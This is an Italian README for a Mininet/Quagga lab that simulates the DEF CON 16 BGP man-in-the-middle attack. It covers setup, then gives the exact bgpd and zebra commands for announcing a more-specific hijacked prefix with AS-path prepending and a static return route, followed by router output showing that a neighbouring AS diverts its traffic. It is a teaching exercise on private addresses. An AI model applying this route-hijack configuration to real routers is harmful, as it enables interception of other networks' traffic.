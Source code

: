 # bgp-man-in-the-middle

Descrizione dell'attacco disponibile qui: https://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-pilosov-kapela.pdf

---

## Preparazione Mininet

- `git clone https://github.com/mininet/mininet`

- `cd mininet`

- `git checkout 2.3.0d4`

- `util/install.sh -a`

- `mn --test pingall`

- `mn --version`

## Preparazione Quagga

- esegui il download quagga-1.2.4 da [qui](http://download.savannah.gnu.org/releases/quagga/) nella tua `$HOME` ed estrai il file compresso

- `cd ~/quagga-1.2.4`

- `chown mininet:mininet /var/run/quagga`

- modifica il file `configure`, aggiungendo `${quagga_statedir_prefix}/var/run/quagga` prima di tutte le opzioni nel loop `for` per `QUAGGA_STATE_DIR`

- `./configure --enable-user=mininet --enable-group=mininet`

- `make`

---

## Esecuzione dell'attacco

Per provare la simulazione, seguiamo i seguenti passi.

**. Avviamo l'ambiente di simulazione.**

Avviamo le istanze dei router, degli AS e degli host eseguendo il comando.

`$ python bgp.py`

**. Accediamo al daemon bgp.**

In un altro terminale avviamo una sessione con il daemon bgp dell'AS100. La password per accedere come utente è `en`. 

`$ ./connect-bgp.sh`

Per accedere alla shell di amministratore lanciamo il comando `en`; la password di accesso è `en`.

```
bgpd-R100> en
Password: 
bgpd-R100# 
```

**. Controlliamo la routing table.**

Verifichiamo le entry di routing nell'AS100. Lanciamo il comando:

`bgpd-R100# show ip bgp`

Output

	BGP table version is 0, local router ID is 100.100.100.100
	Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
	              i internal, r RIB-failure, S Stale, R Removed
	Origin codes: i - IGP, e - EGP, ? - incomplete
	
	   Network          Next Hop            Metric LocPrf Weight Path
	*> 10.10.0.0/22     10.10.110.1              0             0 10 i
	*  10.20.0.0/22     10.10.140.1                            0 40 30 200 20 i
	*>                  10.10.110.1                            0 10 20 i
	*  10.30.0.0/22     10.10.110.1                            0 10 20 200 30 i
	*>                  10.10.140.1                            0 40 30 i
	*> 10.40.0.0/22     10.10.140.1              0             0 40 i
	*> 10.100.0.0/22    0.0.0.0                  0         32768 i
	*  10.200.0.0/22    10.10.110.1                            0 10 20 200 i
	*>                  10.10.140.1                            0 40 30 200 i
	
	Displayed  6 out of 9 total prefixes

Dall'output riusciamo a capire se l'AS100 per raggiungere la rete 10.200.0.0/22 sceglie il path "10 20 200" (caso 1) oppure il path "40 30 200" (caso 2). In questo caso ricadiamo nel caso 1.

**. Accediamo al daemon zebra.**

In un altro terminale avviamo una sessione con il daemon zebra del R100. La password per accedere come utente è `en`. 

`$ ./connect-zebra.sh`

Per accedere alla shell di amministratore lanciamo il comando `en`; la password di accesso è `en`.

```
R100> en
Password: 
R100# 
```

**. Controlliamo le rotte.**

Verifichiamo le rotte selte da R100. Lanciamo il comando:

`R100# show ip route`

Output

	Codes: K - kernel route, C - connected, S - static, R - RIP,
	       O - OSPF, I - IS-IS, B - BGP, P - PIM, A - Babel, N - NHRP,
	       > - selected route, * - FIB route
	
	B>* 10.10.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:28
	C>* 10.10.110.0/30 is directly connected, R100-eth2
	C>* 10.10.140.0/30 is directly connected, R100-eth3
	B>* 10.20.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:25
	B>* 10.30.0.0/22 [20/0] via 10.10.140.1, R100-eth3, 00:00:25
	B>* 10.40.0.0/22 [20/0] via 10.10.140.1, R100-eth3, 00:00:28
	C>* 10.100.0.0/24 is directly connected, R100-eth1
	B>* 10.200.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:22
	C>* 127.0.0.0/8 is directly connected, lo
	C>* 127.0.0.1/32 is directly connected, lo

Vediamo che per raggiungere la rete 10.200.0.0/22 R100 usa una rotta di tipo B - BGP passando attraverso l'AS10 (il dirimpettaio ha indirizzo IP 10.10.110.1)

**. Lanciamo l'attacco.**

Nella shell bgp lanciamo i seguenti comandi (caso 1)

	configure terminal
	
	router bgp 100
	   network 10.200.0.0/24
	   neighbor 10.10.110.1 route-map evil-route-map out
	   exit
	ip prefix-list evil-prefix-list permit 10.200.0.0/24
	route-map evil-route-map permit 10
	   match ip address prefix-list evil-prefix-list
	   set as-path prepend 10 20 200
	   exit

oppure (caso 2)

	configure terminal
	router bgp 100
	   network 10.200.0.0/24
	   neighbor 10.10.140.1 route-map evil-route-map out
	   exit
	ip prefix-list evil-prefix-list permit 10.200.0.0/24
	route-map evil-route-map permit 10
	   match ip address prefix-list evil-prefix-list
	   set as-path prepend 40 30 200
	   exit

Nella shell zebra lanciamo i seguenti comandi (caso 1)

	configure terminal
	ip route 10.200.0.0/24 10.10.110.1
	exit

oppure (caso 2)

	configure terminal
	ip route 10.200.0.0/24 10.10.140.1
	exit
	
**. Controlliamo le scelte di routing degli AS**

Accediamo al daemon bgp di R40 e la sua routing table risulta

	BGP table version is 0, local router ID is 40.40.40.40
	Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
	              i internal, r RIB-failure, S Stale, R Removed
	Origin codes: i - IGP, e - EGP, ? - incomplete
	
	   Network          Next Hop            Metric LocPrf Weight Path
	*> 10.10.0.0/22     10.10.140.2                            0 100 10 i
	*  10.20.0.0/22     10.10.140.2                            0 100 10 20 i
	*>                  10.10.70.1                             0 30 200 20 i
	*> 10.30.0.0/22     10.10.70.1               0             0 30 i
	*> 10.40.0.0/22     0.0.0.0                  0         32768 i
	*> 10.100.0.0/22    10.10.140.2              0             0 100 i
	*  10.200.0.0/22    10.10.140.2                            0 100 10 20 200 i
	*>                  10.10.70.1                             0 30 200 i
	*> 10.200.0.0/24    10.10.140.2              0             0 100 i
	
	Displayed  7 out of 9 total prefixes
	
Vediamo che R40 inoltrerà il traffico verso la rete 10.200.0.0/24 attraverso l'AS100 invece che attraverso l'AS30

**. Fermiamo l'ambiente di simulazione.**

Fermiamo il terminali connessi a R100.

`bgpd-R100# exit`

`R100# exit`

Fermiamo le istanze digitando exit nel terminale di mininet.

`mininet> exit`

